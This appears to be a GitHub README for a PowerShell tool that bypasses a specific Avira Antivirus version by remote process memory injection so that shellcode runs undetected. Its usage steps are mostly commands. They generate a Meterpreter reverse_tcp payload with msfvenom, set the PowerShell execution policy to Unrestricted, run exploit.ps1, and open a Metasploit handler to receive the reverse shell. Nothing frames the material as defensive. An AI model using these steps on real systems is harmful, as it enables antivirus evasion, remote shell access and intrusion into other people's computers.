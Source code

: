 # Bypass-Avira_Antivirus - Memory Evasion via Remote Process Memory Injection (Powershell)

Description

 Bypass Avira Antivirus version 15.0.34.16-17570 using memory evasion techniques, specifically remote process memory injection. By using this technique, it becomes possible to execute a custom shellcode undetected by Avira Antivirus

Usage

1. Download Avira Antivirus version 15.0.34.16-17570: The software can be downloaded from [this link](https://www.filepuma.com/download/avira_free_antivirus_15.0.34.16-17570/download/).

2. Create a custom shell using Metasploit's msfvenom:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<port_you_listen> -f powershell

3. Insert the generated shellcode into exploit.ps1.

4. Before running the script, check the current Execution Policy:

powershell Get-ExecutionPolicy -Scope CurrentUser

5. If necessary, set the Execution Policy to Unrestricted:

powershell Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

6. Check the Execution Policy again to ensure it has been set correctly.

7. Execute the exploit by running exploit.ps1 in Powershell:

powershell ./exploit.ps1

8. Listen for the incoming shell using Metasploit:

msfconsole

  use exploit/multi/handler
  
  set PAYLOAD windows/meterpreter/reverse_tcp
  
  set LHOST <your_ip>
  
  set LPORT <port_you_listen>
  
  run
